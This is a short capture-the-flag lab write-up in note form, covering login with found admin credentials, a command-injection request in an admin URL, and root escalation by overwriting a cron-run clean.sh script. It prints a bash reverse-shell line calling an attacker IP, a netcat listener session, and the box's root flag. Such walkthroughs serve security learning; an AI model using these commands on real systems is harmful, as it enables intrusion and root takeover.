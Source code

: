 
- The web admins credentials are `itsmeadmin:jessie`
- Let's use that to log into the website admin portal
- Looks like another BurpSuite situation. This page cleans downloads and sends an HTTP Get request `GET /admin/?c=rm%20-rf%20/var/www/html/tmp/downloads`


---
- Following walkthrough for the rest (timeline of taking exam requires me to go faster)
---
# Escalate
- `ps aux`
	- see `/usr/sbin/cron` running as root
-  now use #pspy, can analyze processes running, in this case, `cron` 
	- cd to `/var/www/html` and transfer `pspy64` to RHOST from LHOST
	- `chmod +x pspy64`
	- `./pspy64`
		- shows commands relating to processes!
		- Observe
```
2024/10/25 01:11:01 CMD: UID=0     PID=1412   | bash /var/www/html/tmp/clean.sh 
2024/10/25 01:11:01 CMD: UID=0     PID=1411   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2024/10/25 01:11:01 CMD: UID=0     PID=1410   | /usr/sbin/CRON -f 
```
- `clean.sh` is a cron file overwrite
- Get shell again.
- cd `/var/www/html/tmp`, `chmod +rwx clean.sh`
- echo reverse shell into `clean.sh`
```
echo 'bash -i >& /dev/tcp/10.2.1.119/4242 0>&1' > clean.sh
```
- start nc listener on port 4242, and wait...
```
┌──(root㉿kali)-[~/Transfer]
└─# rlwrap nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.2.1.119] from (UNKNOWN) [10.10.140.86] 58036
bash: cannot set terminal process group (1472): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

- Since the cron job is run by root, we have a root shell!

- Root flag
```
root@dmv:/var/www/html/tmp# cat /root/root.txt
cat /root/root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```
